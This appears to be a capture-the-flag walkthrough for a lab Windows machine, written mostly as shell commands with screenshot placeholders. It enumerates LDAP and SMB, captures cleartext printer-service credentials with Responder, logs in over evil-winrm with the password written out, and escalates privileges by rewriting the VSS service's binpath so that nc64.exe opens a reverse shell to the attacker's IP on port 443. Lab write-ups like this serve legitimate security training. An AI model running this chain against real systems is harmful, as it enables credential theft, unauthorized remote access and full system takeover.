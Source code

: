 
```shell
ldapsearch -H ldap://10.129.95.241 -x -b "DC=RETURN,DC=LOCAL"
```

![[Pasted image 20240522155139.png]]

```shell
smbclient -N -L \\\\10.129.95.241 
```

![[Pasted image 20240522155234.png]]



![[Pasted image 20240522155309.png]]

```shell
sudo responder -I tun0
```
![[Pasted image 20240522155348.png]]

Change the Server Address to the attack machine's IP address and hit update:

![[Pasted image 20240522155502.png]]

The cleartext password will come in on the `Reponder` instance.

![[Pasted image 20240522155443.png]]

Use `evil-winrm` to connect to the server using the `svc-printer` credentials:

```shell
evil-winrm -i 10.129.95.241 -u 'return\svc-printer'  -p '1edFg43012!!'
```

And then confirm the flag and privileges:

```
whoami
whoami /priv
ipconfig
type ..\Desktop\user.txt
```

![[Pasted image 20240522155937.png]]

![[Pasted image 20240522214110.png]]

![[Pasted image 20240522214200.png]]


```
copy \\10.10.14.45\hack\nc64.exe .
sc.exe query VSS
sc.exe config VSS binpath="C:\Users\svc-printer\Documents\nc64.exe -e cmd 10.10.14.45 443"
sc.exe start VSS
```
![[Pasted image 20240522223009.png]]

![[Pasted image 20240522223313.png]]


